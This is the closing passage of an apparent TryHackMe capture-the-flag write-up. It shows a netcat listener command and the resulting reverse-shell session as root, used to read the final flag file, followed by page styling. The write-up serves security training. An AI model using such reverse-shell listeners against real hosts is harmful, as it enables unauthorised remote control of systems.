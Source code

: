With this, we get a shell as the `root` user on the host and can read the third flag at `/root/root.txt` to complete the challenge.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.14.175] 47438
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@tryhackme-2204:/# id
uid=0(root) gid=0(root) groups=0(root)
root@tryhackme-2204:/# wc -c /root/root.txt
44 /root/root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>